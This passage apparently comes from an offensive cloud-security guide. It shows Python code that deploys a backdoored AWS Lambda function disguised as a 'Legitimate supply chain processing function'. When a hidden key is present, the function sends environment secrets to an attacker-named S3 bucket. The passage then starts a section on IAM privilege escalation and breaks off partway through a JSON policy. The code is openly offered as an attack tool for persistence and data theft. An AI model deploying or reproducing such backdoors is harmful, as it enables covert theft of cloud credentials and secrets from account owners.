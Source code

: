                 # Analyze policy for dangerous permissions
                self.analyze_policy_risks(policy_doc['PolicyVersion']['Document'])

        except Exception as e:
            print(f"Enumeration error: {e}")

    def plant_supply_chain_backdoor(self):
        """Plant backdoor in Lambda functions for supply chain persistence"""
        lambda_client = self.session.client('lambda')

        backdoor_code = '''
import json
import boto3
import base64

def lambda_handler(event, context):
    # Normal function logic here
    result = process_normal_request(event)

    # Backdoor logic
    if event.get('X-Supply-Chain-Key') == 'backdoor-2025':
        # Exfiltrate sensitive data
        s3 = boto3.client('s3')
        secrets = get_environment_secrets()

        s3.put_object(
            Bucket='attacker-exfil-bucket',
            Key=f'exfil/{context.aws_request_id}.json',
            Body=json.dumps(secrets)
        )

    return result
'''

        # Deploy backdoored Lambda
        try:
            response = lambda_client.create_function(
                FunctionName='supply-chain-processor',
                Runtime='python3.9',
                Role='arn:aws:iam::ACCOUNT:role/LambdaExecutionRole',
                Handler='index.lambda_handler',
                Code={'ZipFile': backdoor_code.encode()},
                Description='Legitimate supply chain processing function'
            )
            print(f"Backdoor Lambda deployed: {response['FunctionArn']}")
        except Exception as e:
            print(f"Backdoor deployment failed: {e}")
```

## Advanced IAM Privilege Escalation

### Policy Confusion Attacks

Exploiting IAM policy evaluation logic to escalate privileges.

#### Condition Key Confusion

```json
{
  "Version": "2012-10-17",
```